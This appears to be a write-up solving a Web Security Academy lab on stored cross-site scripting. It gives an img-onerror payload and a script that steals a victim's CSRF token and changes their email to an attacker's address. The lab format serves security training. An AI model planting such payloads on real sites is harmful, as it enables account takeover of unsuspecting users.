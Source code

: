 ### Solution

<img width="902" height="340" alt="image" src="https://github.com/user-attachments/assets/be8ea6c9-455b-46c5-868a-73773a1eb0f1" />

There is a function to update the email:

<img width="769" height="320" alt="image" src="https://github.com/user-attachments/assets/9aab287f-8305-4e2e-aac8-5d34bef1cf2f" />

It is a POST message:

<img width="608" height="446" alt="image" src="https://github.com/user-attachments/assets/53321fc0-d727-4275-a83f-960352c9ebba" />

There is a function to post comments:

<img width="761" height="631" alt="image" src="https://github.com/user-attachments/assets/b5523b86-924f-4cb5-862a-c5ff07761c15" />



Submit the following payload (e.g., in a blog comment field):

```html
</p><img src=x onerror=alert(1) /><p>
````

Once submitted and viewed by a victim, the `alert(1)` will execute.

![Lab Solved](https://github.com/user-attachments/assets/fb11c714-7e83-45ac-8428-2a44afbb2c4b)


---

You can also escalate the attack by submitting the following **XSS-based CSRF** payload in the comment:


Now Stored below comment in blog then lab will be marked ad solve

```

<script>
    // Wait the window is fully loaded, otherwise the CSRF token will be empty
    window.onload = function (){
        // Fetch victim's CSRF token
        var csrfToken = document.getElementsByName("csrf")[0].value;
        var email = 'attacker@malicious.com';

        // Construct the require POST parameters
        var data = 'email=' + email + '&';
        data += 'csrf=' + csrfToken;

        // Change victim's email upon visit via CSRF attack
        fetch('https://id.web-security-academy.net/my-account/change-email',
            {
                method: 'POST',
                mode: 'no-cors',
                body: data
            }
        )
    };
</script>

```

<img width="776" height="897" alt="image" src="https://github.com/user-attachments/assets/e3c2e5eb-935a-48c0-ad3b-0cf85eeffb04" />


<img width="1163" height="248" alt="image" src="https://github.com/user-attachments/assets/20f10f05-d180-4bc6-872e-bddbf3c7e425" />

---
